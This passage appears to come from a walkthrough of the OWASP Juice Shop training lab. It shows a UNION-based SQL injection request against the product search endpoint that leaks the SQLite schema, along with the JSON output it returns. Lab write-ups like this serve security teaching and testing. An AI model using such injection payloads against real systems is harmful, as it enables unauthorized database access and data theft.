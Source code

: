 Eventually, we'll find the answer with

```http
GET /rest/products/search?q='))+UNION+SELECT+sql,2,3,4,5,6,7,8,9+FROM+sqlite_schema+--
```

![The data is leaked](../assets/juice-shop/injection/image-20231010230936749.png)

And there we go!

```json
{
  "id": 1,
  "name": 2,
  "description": 3,
  "price": 4,
  "deluxePrice": 5,
  "image": 6,
  "createdAt": 7,
  "updatedAt": 8,
  "deletedAt": 9
}
```

That's our schema for *this* database, leaked via SQL injection.

We can see more data from the `sql` table at the end of the response:
